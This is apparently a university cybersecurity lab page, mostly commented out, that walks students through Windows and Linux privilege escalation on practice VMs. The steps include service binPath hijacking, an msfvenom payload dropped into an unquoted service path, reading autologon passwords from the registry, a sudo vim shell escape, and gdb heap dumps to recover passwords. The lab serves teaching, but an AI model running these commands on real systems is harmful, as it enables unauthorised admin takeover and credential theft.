 # Lab 4: Vulnerability Scanning

Coming soon...

<!-- {% hint style="danger" %}
READ: Any knowledge and techniques presented here are for your learning purposes only. It is **ABSOLUTELY ILLEGAL** to apply the learned knowledge to others without proper consent/permission, and even then, you must check and comply with any regulatory restrictions and laws.
{% endhint %}

## 4.1. Introduction

You will need your Kali VM, Windows VM, and the DebLinux VM.&#x20;

* A copy of the DebLinux image (.ova) can be found from the Teams -> Labs -> Files. Some account details are below:&#x20;
  * non-admin user: `user`:`password321`&#x20;
  * admin user.       : `root`:`password123`

{% hint style="info" %}
The UTM copy is also available on Teams for this DebLinux VM.
{% endhint %}

### 4.1.1 Windows VM Setup

If you haven't done already, set up a Windows VM (tested with Windows 11 preview version, but if issues, you should be able to do it with a Windows 7 VM) as described in [Lab 2](https://uwacyber.gitbook.io/cits3006/cits3006-labs/lab-2-malware#2.0.-setup-windows-vm). Once you have created an admin account and are now able to access the desktop, complete the following steps:

1. Log in to the Windows VM using a user account that has administrator privileges.
2. Ensure the Windows VM does not have a user account named 'hank'. If it exists, you can either delete it, or replace 'hank' below with your chosen username, and also replace it in the script in step 3 below.
3.  Download the setup script on the Windows VM (the Desktop directory is fine).&#x20;

    ```powershell
    wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/wsetup.bat -o wsetup.bat
    ```
4. Right-click on the copied setup file and ensure to select from the pop-up menu 'run as Administrator'. This will set up the Windows system for the subsequent exercises.
5. Take note of the resulting output. One of the executed tasks is to create a new user account `hank` with password `password321`.

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Restart the Windows VM and log in to `hank`.


{% hint style="info" %}
If you encounter an issue where the wsetup.bat script does not attempt the configuration of Exercises 1-9, and then loops the output “[\*] Creating final configuration task to run upon restart..”, as shown in the image below, then you can fix this by copy and pasting the wsetup.bat contents into your own separate file and executing this instead. This resolves an issue where Unix LF line endings are used instead of Windows CRLF line endings.

<figure><img src="../.gitbook/assets/lab-4-assets/17.png" alt=""><figcaption></figcaption></figure>

{% endhint %}

## 4.2 Windows Privilege Escalation

### 4.2.1 Insecure Service Permissions

Each service has an Access Control List (ACL) that specifies specific permissions to a certain service.

Some permissions are pretty harmful, such as:

* able to query the configuration of the service: `sc qc <service>`
* able to check the current status of the service: `sc query <service>`
* able to start and stop the service: `net start/stop <service>`
* and change the configuration of the service: `sc config <service> <option>= <value>`

{% hint style="info" %}
you might need to type `sc.exe` instead of just `sc`. `sc` stands for Service Control, which is a command that you can use to interact with Windows Services.
{% endhint %}

If a user has permission to change the configuration of a service that runs with SYSTEM privileges, we can change the executable the service uses to one of our own, including a reverse shell. Let's discover the running services with any service enumeration tool, such as [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) or by typing `Get-Service`. You will find an exhaustive list of services, one of which is the `daclsvc` service.

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

We'll need a tool named `AccessChk`, which you can download from the official Microsoft site:

```
https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
```

Or a copy from our github repo:

```powershell
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/AccessChk.zip -o accesschk.zip
```

Once downloaded, extract the files.

The tool `AccessChk` is used to check the permissions of user accounts, which is good for administrative tasks, but also could leak useful information for adversaries.

Using the `accesschk.exe` tool, you can look at which services the user `hank` has permissions over (read the documentation to understand the meaning of flags):

```powershell
.\accesschk64.exe -uwcqv "hank" *
```

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

We've confirmed that `hank` has RW (read-write) permissions over the `daclsvc` service (in fact, this is the only service that `hank` has permission to do with), including the `SERVICE_CHANGE_CONFIG` permission which grants the caller the right to change the executable file that the system runs. Thus, this permission should be granted only to administrators. What we can do now is elevate the permissions of this user to the administrator through this misconfigured service. We first check our current group membership for `hank`:

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

We first have to stop the service we wish to modify:

```powershell
net stop daclsvc
```

Now we execute the command to add `hank` to the administrators group:

```powershell
sc config daclsvc binPath= "net localgroup administrators hank /add"
```

{% hint style="info" %}
Note the space after `binPath=`
{% endhint %}

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

Now restart the service and check whether `hank` has been added to the administrators group or not.

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Using the command `sc qc daclsvc`, we can also see the binary path that we have altered for the `daclsvc` service. Note the BINARY\_PATH\_NAME variable.

<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
With this service's misconfigured permissions, we can actually modify the binary path to contain whatever commands we want, such as the running of a reverse shell. You simply change the `binPath=` to be the path to a reverse shell executable, then the reverse shell will start whenever the service is called. You can manually start the service with `net start daclsvc`. Try this out as an exercise!
{% endhint %}

In an admin cmd, run the command `net localgroup administrators hank /delete` to remove the user from the administrators list as a preparation for the next exercises.

### 4.2.2 Unquoted Service Path

Services whose executable path contains spaces and isn't enclosed within quotes can lead to a privilege escalation. When a service is created whose executable path contains spaces and isn’t enclosed within quotes, this leads to a vulnerability known as _Unquoted Service Path_ which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level, which most of the time it is). if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument. This can be exploited to execute an arbitrary binary when the vulnerable service starts, which could allow escalating privileges to SYSTEM.

For this exercise, there will be a vulnerable service called `unquotedsvc` in your system. Inspect its configuration with `sc.exe qc unquotedsvc`.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We see that the binary path is missing the quotations around it. The path here is to the service .exe. Take note of the directory path itself, as this is where we can drop our malicious executables.

We are going to create a malicious executable that takes advantage of this vulnerability. This executable will perform a similar task to 4.2.1; it will grant the user administrator permissions. We will create this .exe in Kali with the command:

```bash
msfvenom -p windows/exec CMD='net localgroup administrators hank /add' -f exe-service -o common.exe
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

The name `common.exe` is innocuous enough. Copy this .exe over to the Windows VM and place it within the `C:\Program Files\Unquoted Path Service` directory. In cmd, restart the service via `net stop/start unquotedsvc`.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Once again, confirm that this user's permissions have been elevated via `net localgroup administrators`. You should see `hank` in the administrators list. Of course, you could plant any .exe you wanted, including reverse shells, etc.

### 4.2.3 Password Mining (Registry)

Password mining refers to the process of searching for and enumerating encrypted or clear-text passwords stored in persistent or volatile memory on the target system. In this exercise, we'll try to discover passwords stored in registry keys that may or may not be encrypted. One of these credential sets may have elevated permissions...

One place we can check is the automatic login credentials. Windows allows a user to automate the logging-in process by storing passwords and other pertinent information in the registry database. Locate the default credentials using these commands in cmd:

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUsername
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

We see the credentials of our user with non-administrator permissions in plaintext.&#x20;

If there are other services running (e.g., PuTTY, TightVNC, etc.), you could also check the registry entries to see if there are any credentials. Sometimes they may be hashed, but you can use various hash crackers to retrieve the plaintext, if the credentials used are weak!

For example, crack the following credentials:

```
Password: EC84DB8BE7861E4D
PasswordViewOnly: 2B27C004F36D46D0
```

If you are on a Windows machine, check your own registry!

{% hint style="info" %}
We have seen a few different ways a privilege escalation could happen in Windows machines. These are just a few common ones, so you are encouraged to look at other ways that privilege escalation could happen in Windows for your learning purposes.
{% endhint %}

## 4.3 Linux Privilege Escalation&#x20;

For this, we will cover a couple of straightforward yet interesting privilege escalation exploits, which can easily be found still in today's world (even your own system) that could easily go unnoticed until something goes wrong.

### 4.3.1 Exploiting sudo

We often use sudo to elevate privileges to run certain programs as the root user. In a typical managed environment, you would restrict users from misusing this by only allowing certain programs to be used with sudo. But some programs may have vulnerabilities/misconfigurations that allow users to elevate privilege to gain root access. We will have a look at a simple one - vim.

First, we check which programs could be run with sudo without passwords.

```bash
sudo -l
```

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

We see a list, and in fact, many of those could be used to launch an elevated shell as a root. For simplicity, we will use vim.

```bash
sudo vim -c '!sh'
```

<figure><img src="../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

This launches a shell within vim, allowing you to elevate the privilege!

Now try to see what other programs you can use to elevate the privilege.

### 4.3.2 Memory inspection

Sometimes passwords are cached in memory, which could be revealed by inspecting the memory. For example, if the root user was accessing the MySQL database just before you logged on, and they logged into the database by specifying the credentials with the `-p` flag, then you could discover what the inputted password was. Let's have a look.

We look at the currently running processes on the target VM:

```
ps -ef
```

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

There are several processes running, we will inspect the bash process (in the above screenshot, the PID is 2554). Bash is a good choice because the main interaction is largely plaintext. You can look up other processes that could leak passwords in plaintext as well (e.g., telnet, ftp, etc.).

Now to get the memory dump:

```
gdb -p [PID]
info proc mappings
```

<figure><img src="../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

Make note of the start and end memory addresses of the \[heap]. For the above screenshot, they are `0xbf4000` and `0xc3f000`.

Press 'q' to return, then enter:

```
dump memory <OUTPUT_FILE> <START_ADDRESS> <END_ADDRESS>
```

```
#for us we will do
dump mempry /tmp/mem 0xbf4000 0xc3f000
```

This will dump the memory to a file - `/tmp/mem`. The Heap is a dynamic memory used by applications to store global variables. So as long as the memory has not been overridden by another program, then the value that is left in the memory could be retrieved.

We can then inspect this file to see if there are any password-related things in there:

```
strings /tmp/mem | grep passw
```

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

We see the credentials `root` and `password123` in plaintext used to log in to `mysql`. We can check this, and quickly find that `mysql` isn't running on the host.

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Instead, we try to switch the user to `root` (given the username was `root`), and find that it was successful.

<figure><img src="../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

Because ssh is also running, we can `ssh` into the target host from Kali.

<figure><img src="../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Voila!

Try to see if you can retrieve any other useful information from memory dumps (whether on the target host or even on your own machine).

## 4.4 Summary

We discovered a few different methods for escalating privilege when you have gained access as a user on a machine. Regardless of which OS you are on, there are always vulnerabilities that can be exploited to gain higher privileges. Therefore, having proper security policies and security reviews is important (for example, misconfigurations are not typically picked up by anti-malware products or firewalls). Using the techniques above, you could also review if you have any misconfigurations that would allow malicious users who may gain access to your machine to elevate the privilege.

{% hint style="info" %}
Credit for Sagi Shahar sagishahar@github, where much of the lab content has been adopted from.
{% endhint %}

Next up, web security.

**Preparation**: We will be using docker to host web services for testing. It should be already loaded on Kali, but if it isn't please have it ready. -->
